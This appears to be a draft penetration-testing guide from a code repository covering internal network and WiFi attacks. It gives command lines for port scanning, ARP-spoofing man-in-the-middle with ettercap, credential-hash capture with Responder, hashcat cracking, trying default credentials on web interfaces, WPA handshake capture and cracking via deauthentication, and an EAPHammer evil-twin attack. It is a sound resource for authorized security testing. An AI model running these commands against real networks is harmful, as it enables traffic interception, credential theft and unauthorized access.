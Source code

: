 WIP

## Segmentation
Scan the top ports in several subnets at once, write output to a file with `tee`:
```bash
masscan -p 20,21-23,25,53,80,110-111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080 10.1.2.0/24 10.1.3.0/24 | tee -a scan_from_subnet.txt
```

## Network Layer security
When connected to the network you can perform a classic Man-in-the-middle attack (ARP spoofing): 
```bash
sudo ettercap -T -M arp:remote /10.1.4.1-220// /10.1.31.1// -w capture_file_name.pcap
```
In this example, we ARP spoof the clients on IP range 10.1.4.1-220 and the default gateway 10.1.31.1. This allows us to capture all network traffic between the hosts and the default gateway.
The captured traffic can be analyzed for interesting information. 

Next step can be to grab credentials/hashes with responder:

```bash
sudo responder -I eth0 -b -w
```

If you obtained hashes you can crack it with several approaches in hashcat:
__Mask__
The following command will run a mask attack:
```bash
hashcat -m 5600 -a 3 --opencl-device-types 1 hash.txt -1 '?l?d' -2 '?l?u' '?u?l?l?l?1?1?1?1' # Change 5600 to the hashcat type number.
```
_Ommit `--opencl-device-types 1` on Linux or Windows._

View the mask identifiers [Hashcat Identifiers](https://hashcat.net/wiki/doku.php?id=mask_attack#custom_charsets). 

__Custom crafted wordlist__
[Mentalist](https://github.com/sc0tfree/mentalist) is a great tool to create visually custom wordlists. 

![Mentalist_config](https://user-images.githubusercontent.com/9286611/141745990-642b15a6-0f63-4f32-9de1-f2cd79e4a50d.png)
See config file: _guides/files/mentalist_chain.mentalist_

You can then run hashcat with:
```bash
hashcat -m 5600 -a 0 --opencl-device-types 1 hash.txt /Users/vincentcox/custom_mentalist.list # On Mac. Change 5600 to the hashcat type number.
```
_Ommit `--opencl-device-types 1` on Linux or Windows._

__Free Online Cracking__
In addition to the cracking methods mentioned above, it's worth a shot to use https://www.onlinehashcrack.com/ in parallel (which is free to use). 

## Web Interfaces - Default Credentials
**EYEWITNESS DOES NOT WORK ON ARM, SO IF YOU ARE USING MAC WITH M1/M2/M... CHIP, USE AN INTEL MACHINE WITH VM.**

To reduce time it can be usefull to use masscan or nmap.
Example:
```
nmap -iL list.txt -p 80,443,8080,8888,8081,8433 -Pn -oA nmap_result
```
Runs eyewitness with input a nmap file, saves output to folder and **waits enough time to render it** (amongs other interesting flags):
```
eyewitness -x nmap_result.xml -d results --timeout 30 --user-agent 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36' --threads 6 --delay 10
```

Runs eyewitness with input a Nessus file, saves output to folder and **waits enough time to render it** (amongs other interesting flags):
```bash
eyewitness -x Nessus_Scan.nessus -d directory_name --timeout 30 --user-agent 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36' --threads 6 --delay 10
```


You'll find many devices with web interfaces. Many devices have default credentials. In most cases the vendor name and model/software version is listed in the web page. Just use google to find default credentials for it and try some out. In many cases you'll get even into the core network devices of the network with this approach...

![default credentials](https://user-images.githubusercontent.com/9286611/141475684-0efda993-448d-4d88-a426-170b50289cf2.png)


# WiFi
## WEP and WPA2
Use Wifite(2).

Or:
Begin by placing your wireless card into monitor mode on the channel number of the AP:
```bash
airmon-ng start <interface> <AP channel>
Start an Airodump capture, filtering on the AP channel and BSSID, saving the capture to disk:
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
In a new window (keep the previous one running), deauthenticate a connected client to force it to complete the 4-way handshake:
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```
Wait untill you see that it gathered a WPA handshake:
![image](https://user-images.githubusercontent.com/9286611/141474787-1882f975-2b9c-4966-89f6-66fa223f9a78.png)

```bash
Crack the WPA password with Aircrack-ng:
aircrack-ng -w <wordlist> <capture>
Alternatively, if you have and Airolib-ng database, it can be passed to Aircrack:
aircrack-ng -r <db name> <capture>
```

In addition to the cracking methods mentioned above, it's worth a shot to use https://www.onlinehashcrack.com/ in parallel (which is free to use). 


## WPA-Enterprise
Using [EAPHammer](https://github.com/s0lst1c3/eaphammer) to create _evil twin_ attack.
```bash
sudo python3 eaphammer --essid "Name-Wifi_network" --interface wlan0 --creds
```
__Note: most networks use (a combination of 2.4 and) 5 Ghz these days, so "the good old Alfa adapter" won't work in some cases. No clients will connect in that case__

